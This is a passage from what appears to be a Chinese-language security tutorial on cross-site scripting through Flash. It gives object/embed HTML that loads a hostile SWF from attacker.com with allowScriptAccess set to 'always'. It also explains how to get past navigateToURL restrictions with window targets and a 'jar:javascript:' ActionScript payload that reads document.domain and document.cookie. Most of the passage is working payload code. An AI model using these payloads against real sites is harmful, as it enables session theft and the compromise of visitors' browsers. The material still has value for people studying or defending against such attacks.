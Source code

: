 然后我们的 HTML 页面看上去，应该像这样：

```
<objectwidth="320"height="240"classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000"codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0"><paramname="allowScriptAccess"value="always"/><paramname="src"value="http://www.attacker.com/testme/flashtest/normalEmbededXSS.swf"/><embedwidth="320"height="240"type="application/x-shockwave-flash"src="http://www.attacker.com/testme/flashtest/normalEmbededXSS.swf"allowScriptAccess="always"/></object> 

```

当然我们也可以试着让它变得更简短一些：

```
<object width="320" height="240" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0"><param name="src" value="//www.attacker.com/testme/flashtest/normalEmbededXSS.swf" /><embed width="320" height="240" type="application/x-shockwave-flash" src="//www.attacker.com/testme/flashtest/normalEmbededXSS.swf" /> 

```

但是这个例子在 IE 下会报错，如果想看详细的错误信息你可以尝试使用 debugger 版本的 flash.但是我们可以使用 embed 标签，就像下面这样：

```
<object width="320" height="240" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0"><param name="allowscriptaccess" value="always" /><param name="src" value="//0me.me/demo/xss/flash/normalEmbededXSS.swf" /><embed width="320" height="240" type="application/x-shockwave-flash" src="//0me.me/demo/xss/flash/normalEmbededXSS.swf" allowscriptaccess="always" /></object> 

```

在对使用 allowScriptAccess 的方法有了一些初步的了解之后，让我们看看如果不使用它我们会碰到哪些问题。

1.navigateToURL 或 getURL 所要跳转的页面不能设定为 null/empty, “_self”, “_parent”, “_top”.

```
navigateToURL(new URLRequest("http://google.com/"),"_self"); 

```

2.我们不能使用 javascript 来完成跳转

```
navigateToURL(new URLRequest("javascript:alert(document.domain);"),"testme");

```

看上去第一个问题并不是那么难解决。我们可以使 IFrame name, window.open, a 标签的 target,或 form 的 target 等技巧来解决这个问题。而第二个问题我们恰好可以使用之前 flash 会忽视 jar 协议的特性来解决。现在让我们试着把这些东西整合到一起。

AS3 示例：

```
navigateToURL(new URLRequest("jar:javascript:alert('domain: '+document.domain+'\\r\\nCookies: '+document.cookie);"),"testme"); 

```
